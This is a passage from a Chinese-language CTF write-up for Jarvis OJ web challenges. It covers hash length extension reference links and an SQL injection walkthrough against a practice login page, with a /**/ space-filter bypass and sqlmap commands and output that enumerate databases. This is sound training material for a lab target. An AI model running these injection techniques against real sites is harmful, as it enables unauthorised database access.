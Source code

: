 hash-length-extension-attacks : 

`https://en.wikipedia.org/wiki/Length_extension_attack`

`https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks`

p神的blog : 

`https://www.cnblogs.com/pcat/p/5478509.html`

另外，只有`salt`在前，`value`在后，才可使用 Hash长度扩展攻击。

### Simple Injection

Description：

>很简单的注入，大家试试？
>
>`link：http://web.jarvisoj.com:32787/`
>
>source：ISCC2016

打开是一个登录框，输入 admin 进行 Fuzz，显示密码错误

接着输入 admin' ，提示用户名错误。

经多次测试，发现对空格进行了过滤，并且可以用 `/**/` 进行绕过。

对关键字貌似并没有过滤，至少不影响本次做题，因此我们可以直接用 sqlmap 跑

因为是 Post ，我们用 Burpsuite 抓包后，存为 txt 文件，然后使用 -r 进行读取

并且我们知道空格用 `/**/` 绕过，并且注入点在 `username`

```shell
# sqlmap -r 1.txt --tamper=space2comment -p username 
```

这题是盲注，Time-based 和 Bool-Based 都可以，取决于写脚本的方式

回显：

![](/root/Writeups/JarvisOJ/Web WriteUps for Jarvis OJ.assets/simple_inj.jpg)

接下来读取数据库：

```powershell
# sqlmap -r 1.txt --tamper=space2comment -p username --dbs 

[17:25:52] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.6.21, Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[17:25:52] [INFO] fetching database names
[17:25:52] [INFO] fetching number of databases
[17:25:53] [INFO] resumed: 3
[17:25:53] [INFO] resumed: information_schema
[17:25:53] [INFO] resumed: injection
[17:25:53] [INFO] resumed: test
available databases [3]:
[*] information_schema
[*] injection
[*] test
```

